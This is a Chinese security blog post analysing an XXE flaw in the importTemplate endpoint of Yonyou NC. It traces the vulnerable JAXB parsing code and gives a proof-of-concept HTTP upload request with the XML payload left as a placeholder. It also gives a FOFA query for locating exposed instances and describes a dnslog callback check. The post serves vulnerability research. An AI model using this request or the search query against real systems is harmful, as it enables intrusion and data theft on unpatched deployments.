 #  用友NC importTemplate方法XXE漏洞分析  
原创 网络攻防情报小组  C4安全团队   2025-06-18 05:52  
  
## 前言  
  
这是一个礼拜一次的正经漏洞分析文章，也就照着漏洞代码来分析一下用友NC的XXE漏洞，看和用友U8C的XXE漏洞有何区别吧，文章首发于奇安信攻防社区  
  
源码文件已在内部知识圈公开，感兴趣的师傅可以  
文末扫码加入  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJSCuyicetwfkClYhKEP1GUcVEbiamfg7KBBk56lntgvGglCicKSnSfDEicHPmlEuOlXGveC9hiakF8CJYA/640?wx_fmt=gif&from=appmsg "")  
  
漏洞位于importTemplate  
接口处，文件路径为nc.uap.portal.action.importTemplate  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSCuyicetwfkClYhKEP1GUcVPhkODFrEjSnxyh3sde2RIZiasTB9kJEgV5uQYZCbqeZnqpGH1tO6ezA/640?wx_fmt=png&from=appmsg "")  
  
其中关键代码如下，我放文本框里面  
```
Map<String, MultipartFile> fileMap = req.getFileMap();  
List<MultipartFile> files = new ArrayList<>();
String billitem = req.getParameter("billitem");  
if ("null".equals(billitem) || StringUtils.isBlank(billitem)) {  
  AppInteractionUtil.showMessageDialog(NCLangRes4VoTransl.getNCLangRes().getStrByID("bd", "PortalTemplateAction-000000"));  
  return;  
}   
if (MapUtils.isNotEmpty(fileMap))  
  files.addAll(fileMap.values());   
String name = ((MultipartFile)files.get(0)).getOriginalFilename();  
InputStream in = ((MultipartFile)files.get(0)).getInputStream();  
try {  
  TemplateOperTools.doImPort(in, billitem);
```  
  
后端接收上传的文件内容输入以及参数billitem，之后将其传入TemplateOperTools.doImPort  
方法中  
  
盯着代码继续追踪方法，doImport代码如下  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSCuyicetwfkClYhKEP1GUcVQCUYhHPk9uF4OCvfKXPrn7xcARFBFmA9OhUv8V5nEJ3mREHbX7dDQw/640?wx_fmt=png&from=appmsg "")  
  
可以看到内容输入经过  
JaxbMarshalFactory方法解析  
  
  
来到漏洞的罪魁祸首那一段代码  
```
TemplatePackObj packObj = (TemplatePackObj)JaxbMarshalFactory.newIns().encodeXML(TemplatePackObj.class, xml)
```  
  
此处对输入的内容进行解析，并将其转换为TemplatePackObj  
对象  
  
因为使用了JAXB来进行解析XML外部实体，从而造成了XXE漏洞  
  
最终的POC如下  
```
POST /portal/pt/portaltemplate/importTemplate?pageId=login&billitem=1 HTTP/1.1
Content-Type: multipart/form-data; boundary=----123456
Host: 
------123456
Content-Disposition: form-data; name="file"; filename="1.txt"

<?xml version="1.0" encoding="UTF-8"?>
内容自行替换即可

------123456--
```  
  
  
相关资产搜索的FOFA语法  
```
app="用友-UFIDA-NC"

```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSCuyicetwfkClYhKEP1GUcVfHRLpKIsYVNfTsDBl2EbsI1GfBTr1C6dJAK2D1jf1rQ4ntkupyL3eg/640?wx_fmt=png&from=appmsg "")  
  
直接构造个XML文档请求外部地址来验证下  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSCuyicetwfkClYhKEP1GUcVgRQtRn63jCkRQUU8rSIw9AYj1H7AnzFyYaeFZCFcyCDfxiaw2DgYrsA/640?wx_fmt=png&from=appmsg "")  
  
请求成功，dnslog接收到请求记录  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSCuyicetwfkClYhKEP1GUcVH5wbsiapPH1EcVPd639D116TBQKaHlWib5bABIGvEfURH9o5zc3aDg5w/640?wx_fmt=png&from=appmsg "")  
  
  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券，加入链接：https://wiki.freebuf.com/societyDetail?society_id=184**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSCuyicetwfkClYhKEP1GUcVqQHpxibajrsiacpWuasPbmC5gGB93EWh2vIAwgo6gSQ5nlCUbZLFsUWg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSCuyicetwfkClYhKEP1GUcV22w5E22DPrIDUb3oIiboXjHuvsBYdu47iaIYHC5DSAJhD4ISRNicl3TAQ/640?wx_fmt=png&from=appmsg "")  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
  
  
  
  
  

